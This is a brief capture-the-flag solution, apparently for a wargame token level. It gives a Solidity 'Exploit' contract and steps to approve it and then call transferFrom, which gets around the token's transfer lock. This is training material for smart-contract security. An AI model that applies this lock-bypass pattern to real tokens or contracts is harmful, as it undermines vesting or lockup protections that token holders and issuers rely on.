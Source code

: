 Deploy the following contract to the same network, sending your contract instance
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.4;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


contract Exploit {
    
    function exploit(address _who) public {
      uint balance = ERC20(_who).balanceOf(msg.sender);
      ERC20(_who).transferFrom(msg.sender, address(this), balance);
    }
}
```
- Call approve() on the naught coin, approving the contract above for your entire balance of naught coin
- Call exploit()
